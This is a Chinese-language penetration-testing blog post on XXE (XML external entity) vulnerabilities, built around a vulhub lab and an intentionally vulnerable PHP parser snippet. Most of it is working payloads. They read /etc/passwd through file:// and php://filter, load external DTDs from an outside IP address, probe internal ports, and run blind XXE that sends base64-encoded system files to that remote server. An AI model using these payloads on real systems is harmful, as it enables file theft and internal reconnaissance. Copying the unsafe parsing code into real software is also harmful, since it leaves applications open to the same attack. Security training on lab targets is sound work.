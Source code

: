 +++
date = "2017-12-09T23:02:22+08:00"
description = "XXE漏洞是针对使用XML交互的Web应用程序的攻击方法"
draft = false
tags = ["xml"]
title = "XXE漏洞"
topics = ["Pentest"]

+++

### 0x00 XXE
XML文件作为配置文件(spring、Struts2等)、文档结构说明文件(PDF、RSS等)、图片格式文件(SVG header)应用比较广泛

外部引用时可能会出现XXE漏洞，XXE漏洞是针对使用XML交互的Web应用程序的攻击方法

### 0x01 示例代码
实验环境：[https://github.com/vulhub/vulhub/tree/master/php/php_xxe](https://github.com/vulhub/vulhub/tree/master/php/php_xxe?_blank)  
simplexml_load_string.php
```
<?php
$data = file_get_contents('php://input');
$xml = simplexml_load_string($data);
echo $xml->name;
```

### 0x02 读取文件
* 外部引用读取passwd

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<root>
  <name>&xxe;</name>
</root>
```

* 外部引用dtd文件读取passwd

evil.dtd中的内容为：```<!ENTITY b SYSTEM "file:///etc/passwd">```
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
  <!ELEMENT name ANY >
  <!ENTITY % xxe SYSTEM "http://114.115.183.86/evil.dtd">
  %xxe;
]>
<root>
  <name>&b;</name>
</root>
```

### 0x03 端口探测
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
  <!ENTITY http SYSTEM 'http://10.11.11.20:3306/'>
]>
<root>
  <name>&http;</name>
</root>
```

### 0x04 Blind-XXE
* 方法一：

```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/issue">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.dtd">
    %remote;
    %send;
]>
```
evil.dtd内容：
```
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM 'http://114.115.183.86/?%file;'>"
>
%all;
```

* 方法二：

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xdsec [
    <!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hosts">
    <!ENTITY % remote SYSTEM "http://114.115.183.86/wyb/evil.xml">
    %remote;   <!--引用remote来将外部文件evil.xml引入到解释上下文中-->
    %xxe;   <!--执行%xxe，这时会检测到send实体，然后在root节点中引用send，就可以成功实现数据转发-->
]>
<root>&send;</root>
```
evil.xml内容：
```
<!ENTITY % xxe "<!ENTITY send SYSTEM 'http://114.115.183.86/a.php?content=%file;'>">
```


<br>
#### Reference(侵删)：
* [http://blog.csdn.net/u011721501/article/details/43775691](http://blog.csdn.net/u011721501/article/details/43775691?_blank)
* [https://security.tencent.com/index.php/blog/msg/69](https://security.tencent.com/index.php/blog/msg/69?_blank)
